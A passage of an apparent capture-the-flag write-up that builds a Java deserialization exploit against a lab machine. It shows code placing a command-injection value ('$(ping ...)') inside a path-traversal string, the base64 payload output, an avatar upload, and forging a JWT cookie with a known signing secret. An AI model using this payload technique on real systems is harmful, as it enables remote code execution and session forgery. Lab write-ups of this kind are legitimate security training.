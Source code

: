     public class App {
        public static void main( String[] args ) throws IOException {
            Profile profile = new Profile(new ArrayList<>(), true);
            FileUtil.write(SerUtils.toByteArray(profile), new File("./0xdf.ser"));

            User user = new User(223, "../../../../$(ping -c 1 10.10.14.6)/../../../data/uploads/0xdf", "", "");
            UserProfileStorage ups = new UserProfileStorage(user);
            System.out.println(Base64.getEncoder().encodeToString(SerUtils.toByteArray(ups)));
        }
    }



I'll package it, and then run:



    oxdf@hacky$ java -jar target/exploit-1.0-SNAPSHOT.jar 
    rO0ABXNyADFjb20uYWRtaW4uc2VjdXJpdHkuc3JjLnByb2ZpbGUuVXNlclByb2ZpbGVTdG9yYWdlsVf4McAfoVsCAAFMAAR1c2VydAAjTGNvbS9hZG1pbi9zZWN1cml0eS9zcmMvbW9kZWwvVXNlcjt4cHNyACFjb20uYWRtaW4uc2VjdXJpdHkuc3JjLm1vZGVsLlVzZXKUBNdz41+5awIABEkAAmlkTAALZmluZ2VycHJpbnR0ABJMamF2YS9sYW5nL1N0cmluZztMAAhwYXNzd29yZHEAfgAETAAIdXNlcm5hbWVxAH4ABHhwAAAA33QAAHEAfgAGdAA+Li4vLi4vLi4vLi4vJChwaW5nIC1jIDEgMTAuMTAuMTQuNikvLi4vLi4vLi4vZGF0YS91cGxvYWRzLzB4ZGY=



### Execution

#### RCE POC

I'll upload `0xdf.ser` on the avatar page. It returns in the background:



    Successfully uploaded to /data/uploads/0xdf.ser



Then I'll take the base64 generated above and put it into JWT.io (with
the signing secret still there), updating the `user` field. That
generates a new cookie:
